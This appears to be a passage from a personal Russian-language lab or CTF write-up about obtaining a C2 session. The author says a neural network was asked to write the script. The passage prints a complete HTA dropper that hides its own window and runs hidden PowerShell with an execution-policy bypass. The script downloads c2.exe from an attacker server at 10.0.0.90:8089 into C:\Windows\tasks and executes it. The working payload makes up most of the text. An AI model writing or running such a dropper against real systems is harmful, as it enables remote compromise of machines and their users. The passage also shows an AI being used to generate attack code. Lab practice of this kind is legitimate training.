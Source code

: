 (далее я запускаю на 8083, т.к перезагружал систему, решил другой порт использовать)

### Просим нейронку написать .HTA скрипт

Нам нужен скрипт, который скачает агента для C2 с нашего сервера и запустит его через powershell. 

![[Pasted image 20241118203945.png]]

После некоторых страданий мне всё таки удалось заполучить эту несчастную сессию. Не знаю в чем была собственно проблема. Но рабочий скрипт выглядит вот так

upd: проблема была в том, что c2.exe уже существовал на машинке (я до этого залил на машинку и позабыл).


```
<html>
<head>
    <HTA:APPLICATION 
        ID="oHTA"
        APPLICATIONNAME="MSession"
        BORDER="none"
        SHOWINTASKBAR="no"
        SINGLEINSTANCE="no"
        SYSMENU="no"
        VERSION="1.0"
        WINDOWSTATE="minimize" 
    />
</head>
<body>
    <script language="VBScript">
        ' Скрываем окно HTA
        Window.ResizeTo 0, 0
        Window.MoveTo -4000, -4000

        ' Создаем объект WScript.Shell
        Set wsh = CreateObject("WScript.Shell")

        ' Запускаем PowerShell команду для скачивания и выполнения файла
        wsh.Run "powershell -w hidden -nop -noni -exec bypass IEX (New-Object Net.WebClient).DownloadFile('http://10.0.0.90:8089/c2.exe', 'C:\Windows\tasks\c222.exe'); Start-Process 'C:\Windows\tasks\c222.exe'"

        ' Закрываем окно HTA
        Window.Close
    </script>
</body>
</html>

```

Особо заострять внимание на этом не будем. HTA это устаревшая темка, может она вообще не используется вне ctf, лучше пойдем дальше.
